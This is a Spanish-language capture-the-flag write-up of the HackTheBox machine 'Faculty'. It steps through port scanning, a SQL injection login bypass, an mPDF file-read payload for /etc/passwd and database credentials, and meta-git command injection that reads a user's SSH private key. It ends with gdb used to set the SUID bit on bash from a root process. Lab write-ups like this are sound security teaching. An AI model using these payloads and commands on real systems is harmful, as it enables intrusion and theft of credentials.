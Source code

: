 ```yaml
---
layout:   post
title:    "Write Up Faculty. "
subtitle: "Starting-Point"
category:   HTB
tags:      [Medium,Linux,SQLi,Burpsuite,LFI,RCE,SSH,Write-Up-Machine,Starting-Point,eWPT,eWPTX,OSWE,OSCP] 
---
```

![list](/assets/img/faculty/Captura%20de%20pantalla%20(186).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.169 -oA allports -Pn
```


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/faculty/Kali-2022-09-06-23-39-14.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.

```bash
nmap -p22,8080 -sV -sC 10.10.11.183 -oN target
```


![list](/assets/img/faculty/Kali-2022-09-06-23-39-23.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***

## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros e ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.

![list](/assets/img/faculty/Kali-2022-09-06-23-40-34.png){:.lead width="800" height="100" loading="lazy"}
Ingresamos el dominio al /etc/hosts. 
{:.note}



Fuzzeamos la web con gobuster.

![list](/assets/img/faculty/Kali-2022-09-06-23-44-53.png){:.lead width="800" height="100" loading="lazy"}
Lo utilizamos para fuzzear virtualhosting. 
{:.note}



Inspecionamos la web y tiene dos panles de login pero el vamos a explotar es el de admin ya que es vulnerable a SQLinjection.

![list](/assets/img/faculty/Kali-2022-09-06-23-45-58.png){:.lead width="800" height="100" loading="lazy"}
Lo podemos burlar con una inyección simple: ' or 1=1#.
{:.note}



Obtenemos acceso al panel de administración, que tiene muchas funcionalidades nuevas que deben verificarse en busca de vulnerabilidades.

![list](/assets/img/faculty/Kali-2022-09-06-23-46-03.png){:.lead width="800" height="100" loading="lazy"}

Enumeramos en el panel de administración, encontré que hay un lugar para descargar pdf.

![list](/assets/img/faculty/Kali-2022-09-06-23-53-04.png){:.lead width="800" height="100" loading="lazy"}
Explore cada funcionalidad, mientras analiza las solicitudes y respuestas con Burp Suite. 
{:.note}



Si interceptamos la petición al darle al botón, vemos lo siguiente.

![list](/assets/img/faculty/Kali-2022-10-24-21-32-31.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
Se puede examinar la solicitud de descarga del pdf y parece ser un proceso de codificación en url dos veces y una en base64. 


![list](/assets/img/faculty/Kali-2022-10-24-22-45-19.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
Al urldecodearlo 2 veces y decodearlo en base64 una vez obtenemos mejor formato.



Sabiendo eso intercectamos el one-lner del pdf y lo reeplamos por la petición en burpsuite para eso creamos un [payload] en [CyberChef] para encodearlo como se tramita la petición original.

[payload]: https://github.com/mpdf/mpdf/issues/356
[CyberChef]: https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL2V0Yy9wYXNzd2QiIGNvbnRlbnQ9Ii9ldGMvcGFzc3dkIiBpY29uPSJHcmFwaCIgdGl0bGU9IkF0dGFjaGVkIEZpbGU6IC9ldGMvcGFzc3dkIiBwb3MteD0iMTk1IiAvPg

Damos a forward y mirando los Attachments del pdf encontramos el passwd que indicamos, lo descargarmos y podemos leerlo un par de usuarios.

![list](/assets/img/faculty/Kali-2022-09-07-00-39-33.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
En la parte izquierda dar click yse podra ver el contedio.



Esta página envía una solicitud a `http://faculty.htb/admin/ajax.php?action=get_schecdule` esa url nos mostrará alguna información del sistema de archivos local `/var/www/scheduling/admin/admin_class.php`, con la cual podemos hacer lo mismo de antes.

Esto nos ayudará a localizar dónde se almacenan los archivos del sitio web y finalmente nos llevará al archivo db_connect.php y le daremos un vistazo ese `db_connect.php` con otro payload para ver su contenido.

```bash
curl http://faculty.htb/admin/download.php -H
```

Hay una credencial encontrada en el archivo `Co.met06aci.dly53ro.per`, probamos a conectarnos por ssh, y obtenemos una shell

```bash
ssh gbyolo@10.10.11.169
```

![list](/assets/img/faculty/Kali-2022-09-07-01-04-35.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
A qui no esta la flag debemos pivotar hasta developer.

***
## Explotacion

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.

Si miramos privilegios de sudoers podemos ejecutar meta-git como el usuario developer.

![list](/assets/img/faculty/Kali-2022-10-24-22-52-21.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
BUscando un poco encontramos una [vulnerabilidad] que te permite ejecutar comandos, podemos probarla pero solo funciona en un directorio que tenga acceso asi que desde la /.

[vulnerabilidad]: https://hackerone.com/reports/728040



Basicamente dice que el comando de clonación no se desinfectó correctamente, por lo que podemos usarlo para la ejecución del código. Esto debe ejecutarse desde el directorio /home . Podemos encontrar el id_rsa del desarrollador. 

```bash
sudo -u developer meta-git clone 'poc | whoami'
```
{:.note}
Solo para probar.



Ahora podemos leer la id_rsa para conectarnos por ssh.

```bash
sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
```
{:.note}
Copiamos el contenido a un archivo id_rsa en la maquina atacate y le damos permisos 600 y nos conectamos via ssh.



inicie sesión para obtener la bandera de usuario.

```bash
ssh developer@10.10.11.169 -i id_rsa
```

![list](/assets/img/faculty/Kali-2022-10-24-23-14-06.png){:.lead width="800" height="100" loading="lazy"}

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.

Gdb es inusual, existe un posible [exploit] en hacktricks, podemos ver que nuestro grupo puede ejecutarlo, además tiene una capabilitie.

[exploit]: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

![list](/assets/img/faculty/Kali-2022-10-24-23-16-38.png){:.lead width="800" height="100" loading="lazy"}

Podemos utilizar un proceso que este ejecutando root para con gdb asignar suid a la bash.

```bash
ps faux | grep ^root | grep python3
```
{:.note}
Localizamos proceso.




```bash
gdb -p 29
```
{:.note}
atacamos el proseso en mi caso 29 es syo es otro.




```bash
call (void)system("chmod u+s /bin/bash")
```
{:.note}
En el contexto (gdb).




```bash
quit
```
{:.note}
En el contexto (gdb) y hacemos `bash -p`.




Ya lo ultimo es buscar la flag de superusuario en el escritorio de root.

***

```shell
🎉 Felicitaciones ya has comprometido Faculty de HackTheBox 🎉
```
{:.centered}
***